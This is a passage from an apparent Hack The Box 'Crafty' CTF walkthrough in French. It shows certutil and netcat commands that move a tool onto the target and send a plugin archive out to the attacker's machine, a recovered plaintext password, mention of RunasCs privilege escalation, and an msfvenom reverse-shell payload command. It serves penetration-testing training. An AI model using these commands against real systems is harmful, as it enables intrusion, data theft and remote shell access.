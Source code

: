 1. Téléchargez `nc.exe` avec 

```
wget https://eternallybored.org/misc/netcat/netcat-win32-1.11.zip
```

2. Démarrez un serveur web avec Python dans le répertoire `netcat-1.11`.

```
python3 -m http.server
```

3. Envoyez `nc.exe` sur le système cible

```
certutil.exe -urlcache -split -f http://IP:PORT/nc.exe nc.exe
```

![netcat upload on target](/images/HTB-Crafty/nc.exe-ontarget.png)

4. Sur notre machine locale, nous exécutons

```
nc -nlp 1235 > playercounter-1.0-SNAPSHOT.jar
```

5. Enfin, nous envoyons l'archive à notre machine Kali 

```
.\nc.exe 10.10.14.222 1235 < c:\Users\svc_minecraft\server\plugins\playercounter-1.0-SNAPSHOT.jar
```

![Crafty archive exfiltration](/images/HTB-Crafty/archive-exfiltration.png)

> Pour reprendre le contrôle du terminal sur le système cible, arrêtez le listener

Après avoir extrait l'archive, nous obtenons `Playercounter.class` dans `/htb/crafty/playercounter/` que nous décompilons avec [decompiler.com](https://www.decompiler.com/).

> Pour en savoir plus sur les fichiers .class, cliquez [ici](https://www.online-convert.com/fr/format-fichier/class)

Nous trouvons ce qui ressemble à un mot de passe (`s67u84zKq8IXw`) utilisé lors de la connexion à un service sur le port 27015 (typiquement utilisé par les jeux en ligne). 

![archive content credentials](/images/HTB-Crafty/playercount-file.png)

Nous disposons d'un outil appelé [RunasCs](https://github.com/antonioCoco/RunasCs) qui nous permet d'exécuter des processus avec des permissions différentes de celles de notre utilisateur actuel. Notre objectif est d'obtenir l'accès au compte `Administrator` à partir de l'utilisateur actuel `svc_minecraft`.

Créons un payload avec `msfvenom`.

**Example**

```
msfvenom -p windows/x64/shell_reverse_tcp lhost=<YOUR IP ADDRESS> lport=<PORT NUMBER> -f exe -a x64 --platform windows -o shell.exe
```
